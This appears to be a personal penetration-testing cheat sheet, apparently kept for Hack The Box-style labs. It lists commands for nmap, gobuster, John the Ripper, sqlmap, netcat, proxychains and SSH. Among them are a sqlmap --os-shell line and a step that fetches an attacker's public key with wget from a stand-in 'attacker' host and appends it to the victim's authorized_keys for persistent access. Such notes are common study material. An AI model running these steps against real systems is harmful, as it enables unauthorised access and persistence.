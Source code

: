 Commands for tools used 
---

## nmap

```
scan and show OS
---
nmap <addr> -sV

Don't ping (Firewall)
---
nmap <addr> -Pn

UDP
---
nmap <addr> -sU
```


## Gobuster
for enumerating website paths

```
finding dirs
---
gobuster dir -u <addr> -w /usr/share/wordlist/dirb/common.txt


searching for specific file type + dirs
---
gobuster dir -x php -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt
```


## John the ripper

```

zip2john <file.zip> 2>/dev/null | tee <file.hash>

john <file.hash> --wordlist=/usr/share/wordlists/rockyou.txt --format=<format>

```


## sqlmap

```
sqlmap -u "<url>" --cookie="<key=values>" --os-shell --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" 
```

## cadaver

```
For WebDAV applications
---
cadaver <website>
```

## Proxy chains

```
adding a proxy
---

edit /etc/proxychains4.conf 

add --> http <ip> <port>

$ proxychains ssh user@<ip>
```

## netcat enumeration

```
finding open ports internally
---
nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
```


## tftp

allows putting/getting of files without specifying permission

check for `/etc/default/tftpd-hpa`


## SSH port forwarding

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`


## Adding your SSH to the victim
```
Append your public to the victim's ~/.ssh/authorized_keys
---
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

## Getting Crash Data

```
While program is running, kill it with
---
kill -BUS <pid>

Get the data from the crash log
---
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crashed
strings /tmp/crashed/CoreDump
```

## JWT generation

```
pip install pyjwt

>>> import jwt
>>> encoded_jwt = jwt.encode({"some": "payload"}, "secret", algorithm="HS256")
```

## SUBDOMAIN ENUM

```
wfuzz -w SecLists-master/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.nunchucks.htb"  -u 'https://nunchucks.htb' --hh <word size>
```

## MySQL

run one liner mysqls
```
mysql -u <user> <db> --password=<pass> -e 'select * from users;'
```

## Searchsploit

Searches for exploits for specific versions

Can filter by date too

```
searchsploit -j <name of software> | jq .
```
